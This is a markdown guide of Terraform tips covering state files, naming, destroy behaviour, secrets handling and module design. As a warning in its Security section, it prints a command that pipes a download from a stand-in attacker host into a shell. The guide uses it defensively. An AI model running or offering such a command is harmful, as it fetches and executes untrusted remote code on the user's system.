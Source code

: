 Terraform Tips and Best Practices
=================================

- Delete resources when you're done.

- Don't modify the Terraform state file.  It will only lead to pain.

- Treat the cloud's portal website as read-only.  It's too easy for Terraform's state file and the cloud to get out-of-sync.

- When developing solutions a good path to develop the solution is:

  1. Do Click-Ops by clicking in a sandbox account to understand the cloud resources
  2. Run `terraform apply` locally until it all works
  3. Start with only cloud provider resources
  4. Add Platform Engineering team's modules where it makes sense
  5. `terraform destroy` to empty the test cloud account
  6. Switch to cloud-hosted state file into blob storage like S3
  7. Create an automation DevOps pipeline to run Terraform

  We're separating concerns and validating each piece in isolation.

- Use the [Terraform Docs](https://registry.terraform.io/providers/hashicorp/aws/latest/docs).  The docs are your best friend.

- Naming: It's best to name all resources using only use lower-case letters, numbers, and underscores.  Avoid ~~spaces~~, ~~upper-case letters~~, ~~special characters~~, and ~~emoji~~ as some services don't like unusual names.  Even if the service you're using does support these characters, other services referencing this name may not.

- Google It: Don’t hesitate to search the Terraform documentation if you’re stuck.

- GitHub Copilot and ChatGPT: These are both great for generating Terraform code.  If you know you need it but don't know how to build it, ask ChatGPT for an example.  It may not work, and it may have outdated versions, but it may get you past the blank page.

- Terraform Destroy is engineered for *all or nothing*.  You can't delete only some of your resources.  If you need to delete a few things, comment out the Terraform HCL.

- If Terraform apply is stuck, comment out the resource in the *.tf file(s), commit, uncomment the resource(s), commit.  FRAGILE: If you do this with data stores like dbs you'll lose data.

- State File restore from backup: Turn on S3 bucket versioning to recover previous state files when needed.

- Frequently update provider and module versions to the latest.  If you're using an online tutorial or example, the versions may be old.

- Frequently update the Terraform CLI both locally and on the build agent.  Newer providers or modules may not work with older CLI versions.

- Provider Version: Terraform will try to find the latest provider that works with all modules.  If terraform can't find a version that works for all the modules, it will error and do nothing.

- Separate Terraform projects: It can be helpful to separate slowly evolving or time consuming resources into separate Terraform folders.  For example, move the DB to a separate Terraform folder and DevOps build to avoid accidentally mutating -- or worse deleting -- the database.  Or move the ALB to a central Terraform folder and DevOps build to use a shared load balancer across projects or teams.

- `depends_on`:  Terraform is really good at discovering dependencies and both applying and deleting things in the correct order.  But sometimes it gets it wrong.  If it does, add gratuitous `depends_on` to help it infer the correct sequence.

- No, you can't import existing cloud infrastructure into Terraform.  Yes, technically you can, but the names will be weird, the ids will be fragile, the Terraform HCL code will be ugly, and this assumes Terraform's import found everything.  Better to write the Terraform and migrate onto new cloud infrastructure.

- Terraform modules: Be careful to include only quality, trusted, and supported modules in your Terraform code.  It could be easy to depend on an unsupported module that never receives security updates, making your system vulnerable.

- Ensure a unique state file per environment.  Never run terraform apply with a local state into the same AWS account that has S3-backed state files.  At best you'll get duplicated resources.  Probably you'll get a corrupt Terraform state file.


Security
--------

- ⚠️ Avoid Storing secrets, passwords, or secure details in your GitHub repo.

- 💡 Use AWS Secrets Manager or Parameter Store for sensitive information.

- 🎯 Use Azure DevOps secrets for build-time sensitive details.

- 😦 Be Cautious: Terraform’s state file may expose secrets.  Anyone with access to the S3 bucket can read all your secrets stored in Terraform state.

- Don't download random Terraform content from the internet and run it without first understanding what it does.  `curl http://hacker.evil./ | sh` is bad.


Modules
-------

- Opinions:  It's easy to make a module so opinionated it's unusable without first forking it.  It's also easy to make a module so customizable that there's so many optional parameters it becomes nearly impossible to use.  Find the careful balance using [SOLID](https://en.wikipedia.org/wiki/SOLID) principles.

- Policies in Modules:  It's easy to bake a policy into a module, but this is a very sharp edge, a foot-gun if you will.  Let's imagine a scenario where one defines a policy inside a module and another policy to add to it outside the module.  There is an awful race condition:

  1. Write your Terraform, debug it, and make it perfect.
  2. The next deploy succeeds and the outer policy is in place.
  3. Sometime later ... next week, next month, next year ...
  4. The build runs with updated `tags`.
  5. The module reapplies with the updated tags and the internal policy.
  6. The outer policy is not reapplied, so the module accidentally deleted your policy.
  7. Suddenly users start getting errors and your logs fill up with permission errors.

  The moral of the story:  Don't build policies in modules.  Or make it very obvious that you're doing so, and have a parameter to easily disable it.
